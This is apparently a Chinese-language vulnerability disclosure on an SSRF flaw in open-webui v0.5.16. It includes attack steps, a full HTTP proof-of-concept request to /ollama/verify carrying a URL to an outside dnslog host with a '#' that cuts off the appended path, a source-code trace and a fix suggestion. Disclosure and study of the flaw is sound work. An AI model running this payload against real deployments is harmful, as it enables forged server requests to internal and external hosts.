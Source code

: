 ```yaml
---
title: open-webui_ssrf漏洞
date: 2025-03-01 14:39:21
tags:
---
```


# 1.影响版本

![image-20250301144310748](open-webui-ssrf漏洞/image-20250301144310748.png)

版本：v0.5.16

# 2.攻击步骤

访问 设置-外部链接-管理Ollama API连接

![image-20250301144356272](open-webui-ssrf漏洞/image-20250301144356272.png)

url填入：http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- # 后点击右边的测试按钮

```
http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- #
```

![image-20250301144933103](open-webui-ssrf漏洞/image-20250301144933103.png)

查看dnslog平台的web日志，如下图，成功利用服务器发起了任意形式的GET请求攻击，验证了SSRF攻击存在

![image-20250301144959765](open-webui-ssrf漏洞/image-20250301144959765.png)

POC如下

```
POST /ollama/verify HTTP/1.1
Host: localhost:8080
Content-Length: 66
sec-ch-ua: 
Accept: application/json
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImRmM2RmNzE5LWE0NGUtNDVkNC1hZGJkLWRiNWRhNmVjNzg4OSJ9.enDXNwjdUApgnnkE71G8eznz87KTQwRNQ9RKODnaSS4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
sec-ch-ua-platform: ""
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/settings
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImRmM2RmNzE5LWE0NGUtNDVkNC1hZGJkLWRiNWRhNmVjNzg4OSJ9.enDXNwjdUApgnnkE71G8eznz87KTQwRNQ9RKODnaSS4
Connection: close

{"url":"http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- #","key":""}
```

为什么要用 # 注释符？

如下图所示，如果没用#则url会自动拼接上 /api/version, 可能会影响正常攻击payload（如sql注入攻击并不会用到/api/version）

![image-20250301151957826](open-webui-ssrf漏洞/image-20250301151957826.png)



# 3.源码跟踪

漏洞原理：利用#注释符注释掉了默认添加在url后面的 /api/version,达到了SSRF漏洞

如POC所示，程序向/ollama/verify发起了POST请求，请求参数为

```
{"url":"http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- #","key":""}
```

![image-20250301150939879](open-webui-ssrf漏洞/image-20250301150939879.png)

根据 /ollama/verify路由可以找到处理该路径的函数

![image-20250301151635154](open-webui-ssrf漏洞/image-20250301151635154.png)

该函数位于 /routers/ollama/verify中,如 185、186行所示，该函数会从表单中获取名为url、key的参数值

在193行，f"{url}/api/version", 中，将用户输入的url直接拼接上 /api/version (此处可以用 # 进行绕过)

```
async with session.get(
                f"{url}/api/version",
                headers={**({"Authorization": f"Bearer {key}"} if key else {})},
            )
```

最后将拼接好的url和headers发起get请求

# 4.修复建议

在url拼接前，对用户的输入进行严格限制，如不允许输入特殊字符#
